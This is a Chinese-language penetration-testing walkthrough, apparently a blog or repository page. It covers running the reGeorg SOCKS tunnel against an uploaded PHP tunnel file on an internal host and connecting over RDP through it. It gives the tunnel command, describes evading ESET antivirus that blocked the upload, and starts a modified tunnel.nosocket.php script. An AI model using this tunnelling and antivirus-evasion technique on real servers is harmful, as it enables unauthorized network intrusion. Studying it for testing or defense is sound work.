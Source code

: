 ### 运行reGeorg
- 运行reGeorgSocksProxy.py，需要一些三方库比如urllib3，按需安装。
```bash
python reGeorgSocksProxy.py -p 8080 -u http://192.168.0.6/tunnel.nosocket.php
```

### mstsc连接
- 输入目标站点地址192.168.0.6，连接可以看到数据通过了代理127.0.0.1:8080 
![proxifier-info](/imgs/proxifier-info.png)
![mstsc](/imgs/mstsc.png)

## 问题&引申
### bypass
&#8195;&#8195;访问tunnel.nosocket.php时候遇到一个错误，如图：
![error1](/imgs/error1.png)
&#8195;&#8195;百度这个错误的话会有很多答案，可能是权限问题，可能是配置问题，但这里实际上是文件上传失败，下载回来可以看到tunnel.nosocket.php并非我们上传的文件，而是一行乱码，也就是上传过程中触发了什么导致失败，更改后缀也无效,可能是敏感函数被拦截。毕竟服务器上有个ESET，尝试绕一下：
tunnel.nosocket.php 
```php
<?php

ini_set("allow_url_fopen", true);
ini_set("allow_url_include", true);
error_reporting(E_ERROR | E_PARSE);

if( !function_exists('apache_request_headers') ) {
    /* A 省略
    */
}
```